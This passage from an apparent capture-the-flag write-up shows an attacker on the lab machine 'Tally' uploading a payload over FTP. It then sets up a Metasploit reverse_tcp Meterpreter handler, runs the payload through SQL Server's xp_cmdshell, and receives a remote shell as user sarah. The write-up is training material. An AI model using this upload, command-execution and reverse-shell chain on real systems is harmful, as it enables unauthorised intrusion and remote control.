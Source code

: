 After generating the *exe* we can upload via FTP to the Intranet folder.  
We know we have write permissions there from the instructions on the SharePoint Finance page from earlier.

```console
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Tally/smb]─[root@Arthorias]─[0]─[3178]
╰─[:)] # ftp 10.10.10.59
Connected to 10.10.10.59.
220 Microsoft FTP Service
Name (10.10.10.59:root): ftp_user
331 Password required
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> cd intranet
250 CWD command successful.
ftp> bin
200 Type set to I.
ftp> put Malware.exe
local: Malware.exe remote: Malware.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
4769528 bytes sent in 29.98 secs (155.3659 kB/s)
```

Now we can start our handler in Metasploit and execute our payload via SQL.

```bash
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Tally]─[root@Arthorias]─[0]─[3508]
╰─[:)] # msfconsole
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.10.14.7
LHOST => 10.10.14.7
msf5 exploit(multi/handler) > set LPORT 6969
LPORT => 6969

msf5 exploit(multi/handler) > run
	
[*] Started reverse TCP handler on 10.10.14.7:6969
```

The EXE would be executed in the following way.

```console
1> xp_cmdshell 'cd C:\FTP\Intranet\ & Malware.exe';
2> go
```

After executing it, in our metasploit window we will receive our shell.

```console
[*] Sending stage (179779 bytes) to 10.10.10.59
[*] Meterpreter session 1 opened (10.10.14.7:6969 -> 10.10.10.59:56560 at 2019-03-25 18:18:18 

meterpreter > shell
Process 1524 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\FTP\Intranet>whoami
whoami
tally\sarah
Excellent, we already have a shell in Tally with the user sarah.
```
